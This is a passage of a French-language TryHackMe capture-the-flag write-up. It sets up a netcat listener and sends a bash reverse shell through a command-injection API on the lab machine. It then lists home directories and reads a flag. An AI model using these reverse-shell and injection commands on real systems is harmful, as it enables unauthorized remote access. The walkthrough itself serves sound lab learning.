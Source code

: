 On peut passer des commandes sans problème.   

```bash
tim@kali:~/Bureau/tryhackme$ nc -lvnp 1234
listening on [any] 1234 ...
```

Sur un autre terminal nous allons écouter le port 1234.   

```bash
tim@kali:~/Bureau/tryhackme$ curl kothfood.thm:15065/api/cmd -X POST -d "bash -i >& /dev/tcp/10.9.228.66/1234 0>&1"
```

On exécute un revers shell.   

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.76.241] 45922
bash: cannot set terminal process group (797): Inappropriate ioctl for device
bash: no job control in this shell
bread@foodctf:~$ ls
ls
flag
main
main.go
resources
bread@foodctf:~$ cat flag	

cat flag
cat: flag: Permission denied

bread@foodctf:/home$ ls
ls
bread
food
pasta
ramen
tryhackme
bread@foodctf:/home$ 

bread@foodctf:/home/food$ ls -al
ls -al
total 40
drwxr-xr-x 5 food food 4096 Mar 30  2020 .
drwxr-xr-x 7 root root 4096 Mar 28  2020 ..
-rw-r--r-- 1 food food  220 Mar 19  2020 .bash_logout
-rw-r--r-- 1 food food 3771 Mar 19  2020 .bashrc
drwx------ 2 food food 4096 Mar 19  2020 .cache
-rw-rw-r-- 1 food food   38 Mar 28  2020 .flag
drwx------ 3 food food 4096 Mar 19  2020 .gnupg
drwxrwxr-x 3 food food 4096 Mar 19  2020 .local
-rw------- 1 food food   23 Mar 19  2020 .mysql_history
-rw-r--r-- 1 food food  815 Mar 28  2020 .profile
bread@foodctf:/home/food$ 

bread@foodctf:/home/food$ cat .flag	
cat .flag 
thm{58a3cb46855af54d0660b34fd20a04c1}
```
